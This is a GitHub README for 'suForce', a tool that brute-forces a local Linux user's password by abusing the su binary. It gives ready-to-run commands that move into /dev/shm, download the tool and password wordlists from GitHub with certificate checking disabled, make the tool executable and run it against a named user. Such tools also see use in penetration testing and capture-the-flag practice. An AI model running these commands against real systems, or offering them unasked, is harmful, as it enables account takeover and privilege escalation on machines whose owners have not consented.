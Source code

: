 # suForce

**Obtains a user's password by abusing the su binary.**

![](/screenshot.png)

- <kbd>Download suForce</kbd>

```sh
cd /dev/shm
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce"
chmod +x suForce
```

- <kbd>Download Wordlist (Optional)</kbd>

```sh
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/top12000.txt"
```

- <kbd>Usage</kbd>

```cmd
./suForce -u <USER> -w <WORDLIST>
```

---
